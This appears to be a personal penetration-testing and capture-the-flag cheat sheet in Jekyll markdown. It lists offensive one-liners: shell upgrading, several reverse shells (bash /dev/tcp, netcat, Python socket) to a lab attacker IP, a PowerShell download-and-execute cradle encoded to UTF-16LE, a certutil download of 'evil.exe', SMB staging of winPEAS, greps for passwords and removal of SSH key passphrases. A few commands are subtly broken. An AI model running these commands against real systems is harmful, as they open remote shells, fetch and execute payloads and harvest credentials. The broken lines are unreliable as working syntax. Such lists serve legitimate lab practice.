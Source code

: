 ```yaml
---
layout: tips
title: Tips and Tricks
---
```

Upgrading Simple Shells to Fully Interactive TTYs
=================================================
{% highlight python%}
python -c 'import pty; pty.spawn("/bin/bash")'
or
python3 -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}

Then press CTRL+Z to return to your local shell

{% highlight bash%}
stty -a or (stty size)
stty raw -echo
{% endhighlight %}

Note the number of rows and columns before pressing fg to return to the box

{% highlight bash%}
export SHELL=bash
export TERM=xterm256-color
stty rows number_of_row columns number_of_columns
{% endhighlight %}
[Back to the top](#header)

Finding interesting locations
=============================
{% highlight bash%}
Writable files directories
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null
Executable folder
find / -perm -o x -type d 2>/dev/null
Writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
By default on Linux:
/tmp
/tmp
/var/tmp
/dev/shm
/var/spool/vbox
/var/spool/samba
By default on Windows:
C:\Windows\Tasks 
C:\Windows\Temp 
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
{% endhighlight %}
[Back to the top](#header)

Convert to UTF-16LE
===================
{% highlight bash%}
root@kali:~# echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.1/shell.ps1')" | xxd | head -3
00000000: 4945 5828 4e65 772d 4f62 6a65 6374 204e  IEX(New-Object N
00000010: 6574 2e57 6562 436c 6965 6e74 292e 646f  et.WebClient).do
00000020: 776e 6c6f 6164 5374 7269 6e67 2827 6874  wnloadString('ht
root@kali:~# echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.1/shell.ps1')" | iconv -t UTF-16LE | xxd | head -3
00000000: 4900 4500 5800 2800 4e00 6500 7700 2d00  I.E.X.(.N.e.w.-.
00000010: 4f00 6200 6a00 6500 6300 7400 2000 4e00  O.b.j.e.c.t. .N.
00000020: 6500 7400 2e00 5700 6500 6200 4300 6c00  e.t...W.e.b.C.l.
{% endhighlight %}
[Back to the top](#header)

Setting up SMB server
=====================
{% highlight bash%}
root@kali:~/HTB/Json/smb# smbserver.py -username root -password password sharingiscaring $(pwd) -smb2support
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
{% endhighlight %}

On the windows side:
{% highlight bash%}
$pass= “password” | ConverTo-SecureString -AsPlainText -Force #need to be typed
$pass #to verify it is created
$cred = New-Object System.Management.Automation.PsCredential('root',$pass)
$cred #to verify it is created
New-PSDrive -name share -root \\10.10.14.1\sharingiscaring -Credential $cred -PSProvider "filesystem"
cd share:
.\winPEAS.exe cmd fast > winPEAS.exe
{% endhighlight %}
[Back to the top](#header)

One Liners
==========
Dowloading file via certutil
{% highlight bash%}
cmd.exe /C certutil  -split -urlcache -f http://10.10.14.1/evil.exe c:\Users\Admin\Desktop\notevil.exe
{% endhighlight %}
Nmap scan ran through searchsploit
{% highlight bash%}
nmap -p- -sV -oX new.xml 10.10.14.1; searchsploit --nmap new.xml
{% endhighlight %}
List al started services
{% highlight bash%}
cmd.exe /c wmic service where started=true get name, startname
{% endhighlight %}
Wfuzz
{% highlight bash%}
wfuzz -w /wordlist/directory-medium.txt --hc 404 http://testing.com/test.php?FUZZ=1
--hc 404 = exclude 404 response  
--hh 777 = exclude response with 777char  
For more details: [wfuzz][link15] 
{% endhighlight %}
Find all file in a directory and executing a command.
{% highlight bash%}
find . -type f -exec cat {} \;
{% endhighlight %}
Easy transfert
{% highlight bash%}
base64 -w 0 filetotransfert
echo "iOgogIG1haW4oKQo=" | base64 -d > filename
{% endhighlight %}
Looking for creds in the directory
{% highlight bash%}
Grabbing full word
grep -rnw ./ -e 'password' -e 'password' -e 'passwd'
Grabbing partial word
grep -rn ./ -e 'passwd'
{% endhighlight %}
Search for flag
{% highlight bash%}
find / -type f \( -name "root.txt" -o -name "user.txt" \) 2>/dev/nul
{% endhighlight %}
Untar
{% highlight bash%}
tar -xvf
{% endhighlight %}
Removing password from ssh
{% highlight bash%}
openssl rsa -in ~/.ssh/id_rsa -out ~/.ssh/id_rsa_new
{% endhighlight %}
[Back to the top](#header)

Reverse shells
================
{% highlight bash%}
bash -i >& /dev/tcp/10.10.14.1/9001 0>&1
/bin/sh | nc 10.10.14.1 9001
rm -f /tmp/p; mknod /tmp/p p && nc 10.10.14.1 9001 0/tmp/p
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}
[Back to the top](#header)

Creating Custom Wordlists
=========================
This can be easily achieved using [exrex][link13]:
{% highlight bash%}
python3 exrex.py "(winter|summer|spring|fall|autumn)20[12][678]" -o wordlist
{% endhighlight %}
[Cewl][link14] can also be used to automaticly generate a wordlist by scrapping a website:
{% highlight bash%}
cewl -d 0 https://www.testing.com/
{% endhighlight %}
[Back to the top](#header)

Finding non standard binaries 
==============================
{% highlight bash%}
for i in $(ls /sbin/*); do echo $i; done
for i in $(ls /sbin/*); do dpkg --search $i; done
for i in $(ls /sbin/*); do dpkg --search $i 1>/dev/null; done
{% endhighlight %}
[Back to the top](#header)

Interesting Links:
==================
- [jwt.io][link1]: Decode and edit jwt token
- [cyberchef][link3]: Decode and encode in multiple format
- [stackedit.io][link4]: Markdown editor
- [devhints.io][link5]: Jekyll dev ops tricks
- [jekyllrb.com][link6]: Jekyll tuto
- [PayloadsAllTheThings][link7]: Payload for everything
- [Netsec][link8]: Idea for future tutorials
- [Pentestmonkey][link9]: Reverse Shell Cheat Sheet
- [W3schools][link10]: Testing new layout
- [Jekyll Tags][link12]: For future reference

[Back to the top](#header)

[link1]:https://jwt.io/  
[link2]:http://jekyllrb.com
[link3]:https://gchq.github.io/CyberChef/
[link4]:https://stackedit.io/app#
[link5]:https://devhints.io/jekyll 
[link6]:https://jekyllrb.com/
[link7]:https://github.com/swisskyrepo/PayloadsAllTheThings
[link8]:https://netsec.ws/?p=376
[link9]:http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[link10]:https://www.w3schools.com/howto/tryit.asp?filename=tryhow_css_subnav
[link11]:https://github.com/infodox/python-pty-shells
[link12]:https://longqian.me/2017/02/09/github-jekyll-tag/
[link13]:https://github.com/asciimoo/exrex
[link14]:https://digi.ninja/projects/cewl.php
[link15]:https://wfuzz.readthedocs.io/en/latest/user/getting.html#getting-help
